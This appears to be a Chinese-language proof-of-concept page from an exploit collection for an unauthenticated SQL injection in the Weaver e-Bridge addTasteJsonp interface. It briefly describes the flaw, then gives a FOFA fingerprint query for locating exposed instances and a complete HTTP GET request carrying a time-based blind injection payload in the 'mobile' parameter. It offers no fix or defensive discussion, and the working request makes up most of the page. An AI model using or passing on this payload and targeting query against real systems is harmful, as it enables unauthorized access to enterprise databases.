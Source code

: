 # 泛微云桥e-Bridge系统接口addTasteJsonp存在SQL注入漏洞

泛微云桥e-Bridge是在“互联网+”的背景下研发的一款用于桥接互联网开放资源与企业信息化系统的系统集成平台。

泛微-云桥e-Bridge addTasteJsonp 接口存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息

## fofa

```javascript
app="泛微云桥e-Bridge"
```

## poc

```javascript
GET /taste/addTasteJsonp?company=1&userName=1&jsonpcallback=1&mobile=1%27+AND+%28SELECT+6488+FROM+%28SELECT%28SLEEP%285%29%29%29CvMg%29+OR+%27JmLq%27%3D%27IpuI HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![图片](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412191452651.webp)

## 漏洞来源

- https://mp.weixin.qq.com/s/Ej26hywx4po4sj3dSAVI_Q